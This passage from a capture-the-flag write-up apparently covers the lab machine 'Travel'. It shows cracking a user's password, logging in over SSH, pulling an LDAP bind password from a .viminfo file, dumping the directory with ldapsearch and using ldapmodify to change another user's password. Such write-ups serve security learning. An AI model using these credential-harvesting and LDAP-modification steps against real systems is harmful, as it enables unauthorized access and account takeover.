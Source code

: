 After trying to crack the hash of the user _lynik-admin_ it gets cracked and the password is:
> 1stepcloser

These credentials work to SSH into the box:
```
ssh lynik-admin@10.10.10.189
```

### Privilege Escalation to root

In the home directory of _lyrik-admin_ are some files that are not default.

The file _.viminfo_ contains a potential password:
```
(...)
BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
(...)
```

Bind passwords are used in **LDAP** and the other file _.ldaprc_ has some LDAP information about the domain:
```
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

Dumping all information out of the LDAP database:
```
ldapsearch -x -w Theroadlesstraveled
```

Changing passwords of the users will not be valuable as the configuration for SSH states in the file _/etc/ssh/sshd_config_ that only password authentication is only allowed for two users:
```
PasswordAuthentication no

# Enable password access for admins in case key auth fails.
Match User trvl-admin,lynik-admin
        PasswordAuthentication yes
```

This means that SSH keys are needed and the attributes modified accordingly.

Generating a new SSH key on our local client:
```
ssh-keygen -f lynik.key
```

Changing the password of the user _lynik_:
```
ldapmodify -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled
```
```
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
add: userPassword
userPassword: NewPass123
```
